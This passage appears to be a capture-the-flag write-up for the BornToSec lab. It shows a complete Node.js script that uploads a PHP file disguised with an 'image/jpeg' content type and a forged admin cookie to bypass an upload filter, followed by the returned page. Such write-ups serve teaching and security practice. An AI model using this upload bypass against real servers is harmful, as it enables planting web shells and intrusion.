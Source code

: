 
Either from the HTML form fields or from the request body, we can find the `form-data` entries:

- `uploaded` (contains the file)
- `MAX_FILE_SIZE` (the maximum size of the file; not safe neither, as can be changed)
- `Upload` (the value of the submit button)

The next step is to manually create the same `form-data` with a custom `content-type` equal to `image/jpeg` but in reality would contain an evil script.

### The whole script

```js
import FormData from 'form-data';

const form = new FormData();

form.append('uploaded', await fs.readFile('./script.php'), {
   contentType: 'image/jpeg',
   filename: "script.php"
});
form.append('MAX_FILE_SIZE', 10_000);
form.append('Upload', "Upload");

const response = await fetch("http://192.168.56.101/?page=upload", {
   "headers": {
      "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
      "accept-language": "en-US,en;q=0.9",
      "cache-control": "max-age=0",
      ...form.getHeaders(),
      "upgrade-insecure-requests": "1",
      "cookie": "I_am_admin=68934a3e9455fa72420237eb05902327",
      "Referer": "http://192.168.56.101/?page=upload",
      "Referrer-Policy": "strict-origin-when-cross-origin"
   },
   "body": form,
   "method": "POST"
});

console.log(await response.text());
```

Run the script using (do not forget to install dependencies before):
```bash
node script.js
```

After running this Node.js script we're able to retrieve the flag in the rendered page:

```html  
<!DOCTYPE HTML>
<html>
   <head>
      <title>BornToSec - Web Section</title>
      <meta http-equiv="content-type" content="text/html; charset=utf-8" />
      <meta name="description" content="" />
      <meta name="keywords" content="" />
      <!--[if lte IE 8]><script src="js/html5shiv.js"></script><![endif]-->
      <script src="js/jquery.min.js"></script>
      <script src="js/skel.min.js"></script>
      <script src="js/skel-layers.min.js"></script>
      <script src="js/init.js"></script>
      <noscript>
         <link rel="shortcut icon" type="image/x-icon" href="/favicon.ico" />
         <link rel="icon" type="image/x-icon" href="favicon.ico" />
         <link rel="stylesheet" href="css/skel.css" />
```